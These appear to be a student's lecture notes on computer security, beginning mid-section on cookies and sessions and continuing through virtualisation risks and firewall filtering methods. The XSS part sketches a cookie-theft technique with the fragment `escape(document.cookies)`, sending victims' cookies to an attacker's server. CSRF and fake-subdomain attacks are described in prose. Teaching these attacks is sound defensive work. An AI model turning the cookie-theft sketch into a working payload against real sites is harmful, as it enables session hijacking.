    * **Cookies** are used at the client side
    * **Session** is used at the server side
- By using a *session ID*, the client does not have to authenticate itself repeatedly
    * The server creates a session entry in the session data structure
    * Server sets in the browser a cookie with the session id

#### Algorithm

1. When client visits the same page or subpage, it sends the http request with the session id in the cookie
2. When the server receives the request, it looks up the session id in the session data structure. If the session id exists, the client is authenticated
3. (and 4) Server runs code to obtain data related to the client
5. Server creates the webpage based on the data obtained
6. Server composes and sends the http response message



### Cookies-Related Security Attacks

#### Network Eavesdropping and Cookie Hijacking
- Communication info between browser and server, including cookies, can be intercepted by attacker
- Attacker can use or modify the cookies to impersonate a user
    * Attacker sends a request and cookies to server
    * Server would think attacker is the user who visited the website before
- **Solution** - Can be prevented by securing communications (e.g. using `https`)

#### Third Party Cookies

- ***Def.*** *First Party Cookies* are cookies that belong to the same domain as in the browser's address bar
- ***Def.*** *Third Party Cookies* are cookies that belong to a different domain
- Web pages can contain the content from third-party domains, such as banner ads
- For example
    * A user visits `www.example.com` which contains an advert banner from `ad.foxytracking.com`
    * When the advert is downloaded from `ad.foxytracking.com`, the website sets a cookie belonging to the advert's domain. Cookie $B$ is a third-party cookie
    * Everytime the user visits `www.example.com`, the cookies set by the advert website will also be sent to the advert website
    * **The advertiser can then build up a history of the user in visiting the website**
- **Solution** - block *third party cookies* in browser settings

#### XSS (Cross-Site Scripting)
- Attacker injects a script in a page in the server
- When victim visits the page, the page including the script is loaded by their browser
- Browser runs the script and attacker gains control
- For example:
    * attacker can inject a link with an `escape(document.cookies)` command that obtains all cookies and encodes them in a string
    * Clicking on the link executes the command and hence composes a HTTP request to send the cookies to the attacker's server
- **Solution** - it is the responsibility of the website to filter out such malicious code

#### Phishing False Sub-Domain

- Suppose the client and server have established a set of cookies
- An attack manages to create a fabricated DNS entry which is a subdomain of the server, with the attacker's server IP address
- When the victim clicks on the fake website, the browser will submit all cookies related to the actual website to the attacker's server as the fake website is a **subdomain** of the actual website.

#### Cross-Site Request Forgery (CSRF)
- Type of web attack that attacker tricks user into sending a request to a web application where user is authenticated
- Resulting in actions being performed without the user's consent settings
- For example, an attacker injects a HTML image to change the password to the attacker's password
    * When Bob's browser loads the cookie, the request will be sent along the cookie
    * Bob does not have to click the image

# 12. Security with Virtualisation

### Virtualisation

- **Virtualisation** technology allows multiple operating systems to share a computer - a running instance of an operating system is called a **Virtual Machine**.

#### Terminologies

- **Host Machine** - physical machine VM is running on
- **Host OS** - OS is the host machine
- **Guest OS** - OS in the VM

#### Architecture

> The OS sits between the hardware and its applications and manages the interaction between application and hardware resources. It is the **lowest level software** in a machine.



##### Embedded

- In An embedded architecture, the hypervisor sits in between guest OSes and hardware. Each grey box is called a domain and is a VM - they are managed by the hypervisor.
- **Domain0** is the host OS in an embedded architecture.

- Properties of **Domain0** in Xen:
    * Domain0 is able to manage and control other guest domains
    * Domain0 contains device drivers to access hardware. Guest domains cannot access hardware.
        * When guest domains want to access hardware, they are routed to Domain0
        * Multiple guest domains share resources with other guest domains (resources are *virtualised*)
    * Can interact with other VMs



##### Non-Embedded

- **Hypervisor** runs as an application to host OS, e.g. QEMU
- These types of systems use a technique called **dynamic binary translation**
    * Translates an instruction in Guest OS to an instruction that can run in host OS
- **Slower** than embedded, as each instruction has to be translated



#### Abstraction of Physical Resources

- Inside the **hypervisor**, hardware is simulated as files - virtual disk (`vDisk`), virtual CPU (`vCPU`), virtual memory (`vRAM`)
    * These files are translated to real hardware when necessary
    * QEMU uses `.cow` files for resources

#### Life Cycles of VMs

- In a normal physical machine, you can be in $3$ states: **Off**, **Running**, or **Suspsended** (Sleep)
- IN VMs, you can have an additional state: **Paused**
    * VM is still resident in the host machine but not allocated CPU
    * When multiple VMs are resident, only 1 VM is allocated CPU at a time (running on the physical machine), other VMs will be paused.

### Impact of Virtualisation on Security

#### 1. Isolated

- In a traditional multi-user OS, **all users in the computer can be affected by an attack**
- In virtualisation, each guess OS is encapsulated and hardware is abstracted:
    * Each VM accesses separate file systems and memory blocks
    * VM technology provides an extra layer of isolation
- Ideally a VM compromised by attackers will not affect the host or other VMs on the host
- Isolation and abstraction of VMs provide **additional security** over traditional multi-user computers

#### 2. Transient

##### Advantages

> Phyiscal servers are often always on while VMs can be started very quickly and remotely
- VMs are **turned on only when they are needed**, and turned off when they are not used anymore
- **Limited operating time** of VMs **mitigates security risks** because we can only infect a machine that is on.

##### Disadvantages

> When virus hits *conventional* networks of physical machines, admins often do the following:
>    * Identify which machines are infected
>    * Clean up infected machines
>    * Apply security patches to prevent re-infection
- **Difficult to identify which VMs are infected**
    * Infected VMs may appear briefly and disappear before they can be detected.
- **Difficult to fix vulnerability of infected VMs**
    * When performing patch management, virus and vulnerability scanning, the **machines must be on**. VMs are transient and not always on.
- **Difficult to eradicate the infection in the system**
    * Infected VMs may appear online briefly, infect other VMs are disappear offline before they are noticed.
- As a result, VM worm/virus infections tend to persist at a low level and flare up again at another time.

#### 3. State Restoring

##### Advantages

> The virtual disk for a VM is stored as a file on the hypervisor. This allows the hypervisor to record changes to the contents of the virtual disk
- **Easy** for VMs to **restore** to **previous states**
- State restore **provides a virus removal mecahnism** for infected VMs are helps **ensure data integrity**

##### Disadvantages - Protection

- **However**, if the hypervisor is compromised then we can't restore state, and attackers have unlimited freedom and access to the hardware
- **Additionally**, since it is easy to restore infected VMs, **many users are not motivated** to secure their VMs with virus protection
    * `60%` of VMs in production are less secure than their physical counterparts, due to this factor

##### Disadvantages - Security Patches

- In physical machines, when a **new security patch** is applied, the machines remain patched.
- A VM may also get the security patch, but if the user rolls back to a previous state, then the guess OS is no longer patched.
- **Challenging** for sysadmins to apply **security patches** in VM because they havde to:
    * record when patches have been applied
    * evaluate which patches need to be applied again when a VM is restored to a previous state

##### Disadvantages - Vulnerability

- **Furthermore**, rolling back a VM may **expose vulnerabilities**
    * re-expose patched vulnerabilities or virus
    * re-enable accounts or passwords that have been disabled
    * reuse encryption keys/tokens that have been deleted

##### Disadvantages - Data Lifetime

> A fundamental principle for building secure systems is **minimising the amount of time** that sensitive data remains in a system

- In a virtualised system, all changes are **recorded**, which **undermines** the principle
- State changes will be transferred to persistent storage, which again bbreaks the security principle.

#### 4. Low Privilege

> In a physical computer, OS is the software with the highest privilege in the computer
> * OS can only be monitored by itself in a phyiscal machine
> * If the OS is infected with virus, it cannot be trusted

##### Advantages

- A VM has **lower privilege** than the hypervisor
- VMs can be **monitored by either the hypervisor**, or by an **authorised dedicated VM** (`Domain0`)
    * The latter is preferred since it **keeps the hypervisor simple**
    * Hypervisor gives dedicated VM the permission to view resources allocated to the monitored VM

#### 5. Mobile

##### Disadvantages

> VMS are not physical, everything about VM is virtualised as files - makes **theft** of data easier

- In fact, attackers **can access copies** of VM that are located on the physical disk of the host machine
- Because the Guest OS has no access to that disk, the VM will **not show any records** of intrusion
- Being **offline** does not guarantee safety. An attacker can access and modify VM files while the VM is offline. A physical machine must be running to be susceptible.

#### 6. Easy to Create

> In a traditional network of physical machines, all machines have the same configurations.
> When there are security vulnerabilities, the same security measure can be applied to all machines

##### Disadvantages

- VMs can be created rapidly, each with a unique configuration (**VM Sprawl**)
- **Cannot apply** a uniform security measure to all VMs
- The rapid growth of VMs exceeds the admin's ability to secure each unique VM

#### 7. Lack of Identity

##### Disadvantages

> In a traditional environment, a machine can be identified by MAC address, Ethernet port number.
> Used as a mechanism of non-repudiation - the system has the mechanism to check who did something

- In a virtualised system, there is **only one** physical MAC address and a Port number, **but multiple** VMs are running so we cannot use MAC or ethernet port number for **non-repudiation** anymore.

### Other Security Issues

#### Hypervisor Intrusion

> If the hypervisor is compromised, the attacker can access all the VMs

- For a non-embedded hypervisor, the hypervisor is a program running on the host OS
- If it is compromised, all VMs can be accessed
- The host OS is also in danger, as the hypervisor converts instructions for the guest OS into instructions for the host OS.
    * This means that the instructions sent by the hypervisor **can no longer be trusted** as it could be malicious.

#### Security due to Inter-VM communication

> "VM-to-VM" attacks means that attackers use one VM to access or control other VMs on the same hypervisor

- Attacks can be achieved by inter-VM communication. A malicious VM can potentially access other VMs because all VMs share resources (memory, network connections etc.) on the hypervisor
- E.g. **embedded architecture of virtualisation**
    * `Domain0` is connected to all guest domains and inter-VM communication happens through the hypervisor
    * An attack on the **shared memory segment** of the hypervisor can use 1 VM to attack another VM

#### Denial of Service

> An **improperly configured** hypervisor can allow a **single VM** to consume all resources, starving other running VMs

- The solution is **simple** - hypervisors should prevent any VM from gaining `100%` usage of any resources

# 13. Security with Firewalls

### Network Structure Basics

#### Firewalls

- Considered an **essential component** to achieve network security
- Filter the information coming into your local network
- Filter the information according to preset static security rules
    * E.g. only the computer with a given IP address can receive ftp connection requests on port 21

#### Network Structure

- Computers in a local network are connected by a **switch**
    * **Switch** checks *MAC addresses*
- Different local networks are connected by **routers**
    * **Router** checks *IP addresses*
    * Forwards data packets between different local networks
    * When a data packet comes in one of the ports:
        * Router reads destination address of packet
        * Uses routing table to determine next hop the packet should be sent out through

#### Switch vs Router

- A switch forwards packets **between the computers in a LAN**
- A router **connects multiple networks**, e.g. multiple LANs or WANs
- In a nutshell, a switch creates a **LAN**, while a router connects multiple **LANs** or **WANs**

### OSI 7 Layer Model

| Layer | Data Unit | Information Added |
|:------|-----------|-------------------|
| Application (7) | Data | Application-specific data (e.g. HTTP, SSH) |
| Presentation (6) | Data | Data formatting (e.g. convert to binary), encryption (e.g. TLS) |
| Session (5) | Data | Session ID, sync info (SYN, SYN-ACK, ACK) |
| Transport (4) | Segment | Source/destination ports, sequence numbers |
| Network (3) | Packet | Source/destination IP addresses |
| Data Link (2) | Frame | MAC Addresses |
| Physical (1) | Bits | Convert bits to electrical signals |

- An Example - send a message
    * **Application** - HTTP request message "GET /index.html"
    * **Presentation** - convert message to binary data, encrypt the data
    * **Session** - add session info (sync info, session ID)
    * **Transport** - add TCP header with port numbers, sequence no..
    * **Network** - add IP header with IP addresses
    * **Data Link** - add MAC addresses
    * **Physical** - converted bits to electrical signals
- **Receive the message:
    * The process is reversed to extract and interpret the data

### Firewall Traffic Filtering Methods

#### Packet Filtering

- Passing or blocking packets based on the preset static rules
    * mainly use source or destination address, ports or protocols to set the static rules
- FIlter a packet based on the information contained in the packet itself
- Packet filtering firewalls work mainly on up to layer 3 (network layer) of the OSI reference model

#### Stateful Inspection

- In addition to IP addresses, ports and sequence number of packets, also record whether a packet is:
    * the start of a new connection
    * a part of an existing connection
    * not part of any existing connection
- Connection state is also used as the test criteria in addition to static rules
- When there is a new connection:
    * check the static filtering rules, same as packet filtering and most CPU intensive
    * All ensuing packets in the same connection are processed rapidly
    * All packets that are not associated with an existing established connection will be dropped
- More efficient than packet filtering
- Operate up to layer 5 (session layer) of the OSI model

#### Proxy Service

- Two independent TCP connection are generated for each application
    * One between the packet source and the firewall
    * The other between the firewall and packet destination
- Proxy receives a packet using one connection and then sends the packet to the destination using the other connection
- No packets passing directly between the computers inside and outside the firewall
- Proxy can see whole data in packets and can easily do **application-layer** checking such as **antivirus scanning**
- Compared with packet filtering, stateful inspection, proxy firewall:
    * operates up to layer 7 (**Application-level firewall**)
    * is more secure
    * less efficient
    * consumes more memory in firewall
    * has loyal followers in the most security-aware organisations, e.g. government military, financil services, healthcare

### Application-Level Filters

- Application-level filters can control the traffic on any OSI layer up to the application layer
- Can control the traffic regarding a particular application
    * packet filter and stateful filter cannot
- **TWO** types of application-level firewall:
    * Network-based application firewall, i.e. proxy firewall
    * Host-based application firewall

#### Host-Based Application Firewall

- Installed on a computer to protect the computer
    * Network-based application firewall is installed in network device to protect the entire network
- In addition to monitoring the network traffic, it monitors input and output of applications running in a host
- Link process to packets: apply filtering rules on a per-process basis instead of filtering connections on a per-port basis
    * Examining the process ID of data packets against a ruleset for the local process
    * More complex rulesets, given the variety of software
